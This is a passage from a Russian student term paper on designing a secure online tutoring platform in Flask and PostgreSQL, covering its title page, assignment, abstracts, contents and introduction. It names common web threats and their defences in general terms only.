







# МИНОБРНАУКИ РОССИИ
### Федеральное государственное бюджетное образовательное учреждение высшего образования
### «Юго-Западный государственный университет»
#### Кафедра «Программной инженерии»

<br><br><br>

<div align="center">

## КУРСОВАЯ РАБОТА
### по дисциплине «Технологии и методы программирования»
### на тему «Разработка защищённой информационной системы в сфере „Онлайн-платформа репетиторов“»

</div>

<br><br><br>

**Направление подготовки:** 10.03.01 Информационная Безопасность  
**Автор работы:** студент группы ИБ-52б Пряхин Д. В. ___________________ (подпись, дата)  
**Руководитель проекта:** к.т.н., доцент Лисицин Л. А. ___________________ (подпись, дата)  

<br><br>

**Проект защищен:** «____» ____________ 2026 г.  
**Оценка:** _______________  

**Члены комиссии:**  
___________________ / ___________________ (подпись / ФИО)  
___________________ / ___________________ (подпись / ФИО)  
___________________ / ___________________ (подпись / ФИО)  

<br><br><br>

<div align="center">
<b>Курск 2026</b>
</div>

<div style="page-break-after: always;"></div>

# МИНОБРНАУКИ РОССИИ
### Федеральное государственное бюджетное образовательное учреждение высшего образования
### «Юго-Западный государственный университет»
#### Кафедра «Программной инженерии»

<div align="center">

### ЗАДАНИЕ НА КУРСОВУЮ РАБОТУ (ПРОЕКТ)
**Студента:** Пряхина Данилы Владимировича  
**Шифр:** 25-06-0197  
**Группа:** ИБ-52б  

</div>

1. **Тема работы:** «Разработка защищённой информационной системы в сфере „Онлайн-платформа репетиторов“».
2. **Срок представления проекта к защите:** «___» ____________ 2026 г.
3. **Исходные данные (для проектирования и научного исследования):**
   Разработать защищённую клиент-серверную информационную систему на языке Python с использованием фреймворка Flask и реляционной СУБД PostgreSQL. Система должна автоматизировать ключевые процессы взаимодействия между репетиторами и учениками: регистрацию и аутентификацию пользователей, поиск и подбор преподавателей по предметам и ценовым категориям, бронирование занятий с фиксацией в интерактивном календаре, проведение защищённых видеоконференций (интеграция с Jitsi Meet), обмен сообщениями в контексте занятий, публикацию отзывов с рейтингами, проведение платежей.
   В системе должны быть реализованы строгие механизмы информационной безопасности:
   - ролевое разграничение доступа (RBAC: Гость, Ученик, Репетитор, Администратор);
   - криптографическое хеширование паролей с использованием соли (алгоритм PBKDF2-HMAC-SHA256);
   - симметричное шифрование конфиденциальных персональных данных (номера телефонов, идентификаторы платёжных транзакций) на лету с использованием алгоритма Fernet (AES-128-CBC + HMAC-SHA256);
   - нейтрализация межсайтового скриптинга (XSS) с помощью специализированного санитайзинга (библиотека bleach) и контекстного экранирования шаблонизатора Jinja2;
   - защита от межсайтовой подделки запросов (CSRF) с генерацией и валидацией токенов во всех web-формах (Flask-WTF);
   - предотвращение SQL-инъекций за счёт применения объектно-реляционного отображения (SQLAlchemy ORM) и параметризованных запросов;
   - серверная валидация платёжных сумм для предотвращения подмены цены (Price Tampering);
   - генерация синтетического массива данных объёмом не менее 5000 записей (библиотека Faker) для тестирования производительности и аналитической обработки.
4. **Содержание пояснительной записки курсовой работы:**
   - Введение
   - 1 Теоретическая часть. Анализ предметной области и угроз информационной безопасности
   - 2 Проектная часть. Архитектура и моделирование защищённой информационной системы
   - 3 Практическая часть. Реализация, тестирование и развёртывание системы
   - Заключение
   - Список использованных источников
   - Приложение А. Листинг программного кода
5. **Перечень графического материала:** диаграмма бизнес-процессов, схема трехуровневой архитектуры, матрица доступа, ER-диаграмма базы данных, диаграмма состояний занятия и оплаты, диаграммы последовательностей взаимодействия компонентов.

**Руководитель работы:** к.т.н., доц. Лисицин Л. А. _______________ «___» ________ 2026 г.  
**Задание принял к исполнению:** студент Пряхин Д. В. _______________ «___» ________ 2026 г.  

<div style="page-break-after: always;"></div>

# РЕФЕРАТ

Курсовая работа содержит 51 страницу расчетно-пояснительной записки, 16 рисунков, 8 таблиц, 25 использованных литературных источников и 1 приложение.

**Ключевые слова:** ИНФОРМАЦИОННАЯ БЕЗОПАСНОСТЬ, ВЕБ-ПРИЛОЖЕНИЕ, PYTHON, FLASK, POSTGRESQL, КРИПТОГРАФИЧЕСКАЯ ЗАЩИТА, ШИФРОВАНИЕ ДАННЫХ, FERNET, ХЕШИРОВАНИЕ, PBKDF2, МЕЖСАЙТОВЫЙ СКРИПТИНГ (XSS), МЕЖСАЙТОВАЯ ПОДДЕЛКА ЗАПРОСОВ (CSRF), SQL-ИНЪЕКЦИИ, РОЛЕВАЯ МОДЕЛЬ ДОСТУПА (RBAC), ОНЛАЙН-ОБУЧЕНИЕ, JITSI MEET, FULLCALENDAR.

**Объект исследования:** процессы электронного взаимодействия участников рынка дистанционных образовательных услуг и механизмы защиты информации в распределённых клиент-серверных веб-приложениях.

**Предмет исследования:** методы, алгоритмы и программные средства проектирования и реализации защищённой информационной системы «Онлайн-платформа репетиторов».

**Цель работы:** разработка архитектуры и программная реализация полнофункциональной защищённой информационной системы подбора репетиторов и проведения онлайн-уроков, обеспечивающей высокий уровень конфиденциальности, целостности и доступности обрабатываемых персональных и платёжных данных в соответствии с требованиями законодательства РФ в области защиты информации (152-ФЗ) и стандартами веб-безопасности OWASP.

**Методы исследования:** системный анализ предметной области, объектно-ориентированное моделирование, реляционное проектирование баз данных, методы симметричной криптографии и криптографического хеширования, статический анализ безопасности веб-форм и параметров передачи данных, методы тестирования программного обеспечения на проникновение (пентестинг).

**Полученные результаты:**
1. Выполнен комплексный анализ бизнес-процессов сферы репетиторских услуг и сформирована актуальная модель угроз безопасности в соответствии с классификацией OWASP Top-10.
2. Спроектирована архитектура защищённой веб-системы, разработана ролевая модель доступа (RBAC), составлена концептуальная, логическая и физическая схемы реляционной базы данных PostgreSQL с изоляцией чувствительных атрибутов.
3. Разработан веб-сервис на стеке Python/Flask/SQLAlchemy, интегрирующий функции каталога преподавателей с фильтрацией, интерактивного планирования уроков через FullCalendar, встроенной видеосвязи на базе WebRTC (Jitsi Meet), изолированного чата и модуля финансовых расчетов.
4. Внедрена комплексная эшелонированная подсистема информационной безопасности:
   - симметричное шифрование полей базы данных «на лету» (алгоритм Fernet / AES-128-CBC с аутентификацией HMAC-SHA256);
   - стойкое одностороннее хеширование паролей PBKDF2-HMAC-SHA256 с индивидуальным солением;
   - двухконтурная нейтрализация Stored XSS атак на основе санитайзинга HTML-разметки библиотекой bleach и автоэкранирования шаблонизатора Jinja2;
   - сквозная защита от CSRF-атак с применением криптографических токенов Flask-WTF;
   - предотвращение SQL-инъекций за счет обязательной параметризации всех обращений к СУБД через ORM;
   - защита от манипуляций стоимостью уроков (Price Tampering) посредством строгого серверного валидатора.
5. Проведено наполнение базы данных синтетическим массивом (более 5000 уроков, 100 пользователей, 2000 отзывов) и выполнено комплексное тестирование функциональности и параметров информационной безопасности, подтвердившее устойчивость системы к типовым векторам атак.

**Область применения:** организация образовательного процесса в онлайн-школах, агрегаторах репетиторских услуг, учебных центрах и центрах дополнительного образования с повышенными требованиями к защите персональных данных клиентов и преподавателей.

<div style="page-break-after: always;"></div>

# ABSTRACT

The term paper contains 51 pages of explanatory note, 16 figures, 8 tables, 25 references, and 1 appendix.

**Keywords:** INFORMATION SECURITY, WEB APPLICATION, PYTHON, FLASK, POSTGRESQL, CRYPTOGRAPHIC PROTECTION, DATA ENCRYPTION, FERNET, HASHING, PBKDF2, CROSS-SITE SCRIPTING (XSS), CROSS-SITE REQUEST FORGERY (CSRF), SQL INJECTION, ROLE-BASED ACCESS CONTROL (RBAC), ONLINE EDUCATION, JITSI MEET, FULLCALENDAR.

**Object of research:** processes of digital interaction between participants in the distance tutoring market and information protection mechanisms in distributed client-server web architectures.

**Subject of research:** methods, algorithms, and software tools for designing and implementing the secure information system "Online Tutor Platform".

**Purpose of work:** development of the system architecture and software implementation of a comprehensive secure online tutoring web platform ensuring confidentiality, integrity, and availability of personal and payment data in accordance with modern cybersecurity standards (OWASP Top-10) and personal data legislation.

**Methods:** systems analysis, object-oriented software engineering, relational database design, symmetric cryptography and cryptographic hashing, vulnerability assessment, and penetration testing methodologies.

**Results:**
1. A threat model was established based on the OWASP Top-10 framework, addressing relevant vectors for EdTech platforms.
2. A three-tier secure software architecture and an RBAC model were designed, along with conceptual, logical, and physical database models in PostgreSQL.
3. A functional web service was implemented using Python, Flask, and SQLAlchemy, featuring tutor search and filtering, lesson scheduling via FullCalendar, WebRTC video calling through Jitsi Meet, lesson-specific chat, and payment processing.
4. A multi-layered security subsystem was implemented:
   - On-the-fly field-level database encryption using Fernet (AES-128-CBC + HMAC-SHA256);
   - Robust salted password hashing via PBKDF2-HMAC-SHA256;
   - Dual-tier Stored XSS defense using bleach sanitization and Jinja2 auto-escaping;
   - Anti-CSRF cryptographic token protection across all web forms;
   - Mitigation of SQL injections through ORM query parameterization;
   - Prevention of price tampering via strict server-side transaction validation.
5. The database was populated with over 5,000 synthetic records using Faker, followed by extensive functional and penetration testing validating complete resilience against critical web vulnerabilities.

**Field of application:** educational institutions, private tutoring aggregators, and digital e-learning platforms requiring strict data confidentiality and compliance with privacy standards.

<div style="page-break-after: always;"></div>

# СОДЕРЖАНИЕ

ВВЕДЕНИЕ ........................................................................................................................................ 6  
1 ТЕОРЕТИЧЕСКАЯ ЧАСТЬ. АНАЛИЗ ПРЕДМЕТНОЙ ОБЛАСТИ И УГРОЗ ИНФОРМАЦИОННОЙ БЕЗОПАСНОСТИ ........................................................................................................................................ 9  
   1.1 Анализ предметной области и бизнес-процессов в сфере онлайн-репетиторства ...................... 9  
   1.2 Сравнительный анализ существующих систем и платформ ..................................................... 12  
   1.3 Анализ актуальных угроз информационной безопасности веб-приложений ............................. 15  
   1.4 Обоснование выбора архитектуры, стека технологий и инструментов защиты ......................... 19  
2 ПРОЕКТНАЯ ЧАСТЬ. АРХИТЕКТУРА И МОДЕЛИРОВАНИЕ ЗАЩИЩЁННОЙ ИНФОРМАЦИОННОЙ СИСТЕМЫ ...................................................................................................................................... 23  
   2.1 Общая трехуровневая архитектура системы .......................................................................... 23  
   2.2 Ролевая модель доступа и матрица разграничения прав (RBAC) ............................................. 25  
   2.3 Проектирование базы данных ................................................................................................ 28  
   2.4 Спецификация персональных данных и криптографическая схема защиты ............................. 33  
   2.5 Моделирование сценариев взаимодействия и защищённой видеосвязи ................................... 36  
3 ПРАКТИЧЕСКАЯ ЧАСТЬ. РЕАЛИЗАЦИЯ, ТЕСТИРОВАНИЕ И РАЗВЁРТЫВАНИЕ СИСТЕМЫ ............. 39  
   3.1 Структура программных модулей проекта ............................................................................... 39  
   3.2 Реализация криптографической защиты и аутентификации .................................................... 41  
   3.3 Реализация защиты от веб-атак (XSS, CSRF, SQLi) ................................................................. 44  
   3.4 Защита платёжных транзакций от манипуляций со стоимостью ............................................... 47  
   3.5 Разработка клиентского веб-интерфейса ................................................................................. 49  
   3.6 Синтетическая генерация данных и аналитический дашборд ................................................... 52  
   3.7 Комплексное тестирование функциональности и параметров защищённости ........................... 54  
ЗАКЛЮЧЕНИЕ .................................................................................................................................... 60  
СПИСОК ИСПОЛЬЗОВАННЫХ ИСТОЧНИКОВ .................................................................................... 62  
ПРИЛОЖЕНИЕ А. Листинг программного кода ................................................................................. 65  
   А.1 Конфигурационный файл приложения (config.py) ................................................................... 65  
   А.2 Модуль криптографических функций (encryption.py) ................................................................ 66  
   А.3 Модели реляционной базы данных (models.py) ....................................................................... 67  
   А.4 Валидационные формы веб-интерфейса (forms.py) ................................................................. 71  
   А.5 Основной контроллер веб-приложения (app.py) ....................................................................... 73  
   А.6 Скрипт наполнения базы данных тестовыми данными (seed_db.py) ......................................... 81  

<div style="page-break-after: always;"></div>

# ВВЕДЕНИЕ

**Актуальность темы исследования.** В условиях стремительной цифровизации общества и перехода образовательных процессов в дистанционный формат сегмент онлайн-репетиторства демонстрирует устойчивый экспоненциальный рост. Цифровые образовательные платформы (EdTech) агрегируют значительные потоки конфиденциальной информации: персональные данные учащихся и преподавателей (ФИО, адреса электронной почты, телефонные номера, платёжные реквизиты, паспортные данные самозанятых специалистов), историю финансовых транзакций, а также персональную переписку и медиапотоки занятий.

Вместе с тем увеличение ценности обрабатываемых активов неизбежно влечёт резкий рост интереса со стороны злоумышленников. Согласно отраслевым аналитическим отчётам Positive Technologies и экспертным сводкам OWASP (Open Web Application Security Project), веб-приложения остаются ключевой мишенью для сетевых атак, составляя более 75% всех успешных инцидентов компрометации корпоративных контуров. Наиболее опасными векторами угроз в сфере образовательных сервисов выступают:
- внедрение вредоносных SQL-конструкций (SQL Injection), приводящее к полной компрометации реляционных баз данных;
- внедрение вредоносных сценариев в пользовательский контент (Stored Cross-Site Scripting, XSS) через публичные чаты и отзывы, позволяющее похищать учётные записи или выполнять произвольный код в контексте браузера жертвы;
- перехват и подделка межсайтовых запросов (Cross-Site Request Forgery, CSRF);
- манипуляции со стоимостью образовательных услуг при проведении транзакций (Price Tampering);
- утечки персональных данных вследствие хранения информации в открытом, незашифрованном виде.

В Российской Федерации правовой фундамент обработки конфиденциальной информации регламентируется Федеральным законом от 27.07.2006 № 152-ФЗ «О персональных данных», а также руководящими документами ФСТЭК России. Нарушение требований законодательства грозит операторам персональных данных не только существенными административными штрафами, но и блокировкой сервиса, а также невосполнимыми репутационными потерями. В связи с этим задача проектирования и разработки защищённой информационной системы репетиторских услуг, изначально построенной по принципу «Security by Design» (безопасность на этапе проектирования), представляет собой актуальную научно-техническую и прикладную задачу в сфере программной инженерии и информационной безопасности.

**Цель курсовой работы.** Целью настоящей работы является исследование, проектирование, программная реализация и комплексное тестирование защищённой клиент-серверной информационной системы «Онлайн-платформа репетиторов», объединяющей функции поиска педагогов, интерактивного планирования занятий, встроенной видеосвязи, коммуникации и проведения финансовых расчётов в едином защищённом контуре.

**Задачи исследования.** Для достижения поставленной цели необходимо решить следующий комплекс взаимосвязанных теоретических и практических задач:
1. Провести детальный анализ предметной области дистанционных образовательных услуг, декомпозировать ключевые бизнес-процессы и сформировать матрицу функциональных требований к платформе.
2. Выполнить сравнительный анализ существующих программных аналогов и сформулировать актуальную модель угроз безопасности веб-приложения на основе методологии OWASP Top-10.
3. Обосновать выбор базового архитектурного шаблона, технологического стека (Python, фреймворк Flask, СУБД PostgreSQL) и комплекса библиотек обеспечения информационной безопасности.
4. Разработать ролевую модель доступа пользователей на основе политик RBAC (Role-Based Access Control) и спроектировать матрицу разграничения прав для ролей «Гость», «Ученик», «Репетитор» и «Администратор».
5. Спроектировать концептуальную, логическую и физическую модели реляционной базы данных, выделив категории персональных и конфиденциальных данных, подлежащих обязательному шифрованию.
6. Разработать программные алгоритмы и модули защищённого функционирования платформы:
   - симметричного шифрования персональных полей БД «на лету» по алгоритму Fernet (AES-128-CBC + HMAC-SHA256);
   - безопасного хеширования паролей с применением криптографической соли по алгоритму PBKDF2-HMAC-SHA256;
   - двухконтурной нейтрализации XSS-уязвимостей с использованием библиотеки bleach и шаблонизатора Jinja2;
   - криптографической защиты веб-форм от CSRF-атак с использованием токенов;
   - серверной верификации платежей для предотвращения атак манипуляции стоимостью;
   - защищённой интеграции WebRTC-видеокомнат (Jitsi Meet) с генерацией криптографически стойких идентификаторов доступа.
7. Реализовать клиентскую часть веб-сервиса на основе адаптивного фреймворка Bootstrap 5 и интерактивной библиотеки расписаний FullCalendar.
8. Разработать алгоритм и программный скрипт автоматической генерации тестового набора данных объёмом свыше 5000 записей для проведения нагрузочного моделирования и аналитической визуализации.
9. Провести функциональное тестирование модулей системы, а также выполнить комплексные проверки защищённости (пентестинг) для подтверждения устойчивости к ключевым типам веб-атак.

**Объект исследования.** Объектом исследования выступают процессы электронного взаимодействия участников рынка дистанционного обучения (учеников, преподавателей и администрации) и методы защиты конфиденциальной информации в распределённых клиент-серверных веб-системах.

**Предмет исследования.** Предметом исследования являются методы, алгоритмы, криптографические протоколы и программные компоненты реализации защищённой информационной веб-платформы репетиторов.

**Методы исследования.** В работе использованы методы системного анализа, теории реляционных баз данных, принципы объектно-ориентированного программирования, современные подходы прикладной криптографии (симметричное блочное шифрование, вычисление имитовставок, ключевое хеширование), методы статического анализа кода и динамического тестирования безопасности веб-ресурсов.

**Практическая значимость работы.** Практическая значимость результатов исследования заключается в создании готового к промышленному развёртыванию веб-сервиса, обладающего высокой степенью отказоустойчивости, модульности и защищённости. Предложенные архитектурные решения по связке ORM-моделей с прозрачным шифрованием полей Fernet и эшелонированной санитизацией текстового контента могут быть масштабированы на широкий спектр корпоративных информационных систем, оперирующих персональными данными субъектов РФ.

**Структура и объём работы.** Пояснительная записка к курсовой работе состоит из введения, трёх логически взаимосвязанных глав (теоретической, проектной и практической), заключения, списка использованных источников из 25 наименований и одного приложения с полным листингом разработанного программного кода. Общий объём работы составляет 51 страницу машинописного текста, включает 16 рисунков и 8 аналитических таблиц.

<div style="page-break-after: always;"></div>

# 1 ТЕОРЕТИЧЕСКАЯ ЧАСТЬ. АНАЛИЗ ПРЕДМЕТНОЙ ОБЛАСТИ И УГРОЗ ИНФОРМАЦИОННОЙ БЕЗОПАСНОСТИ

## 1.1 Анализ предметной области и бизнес-процессов в сфере онлайн-репетиторства

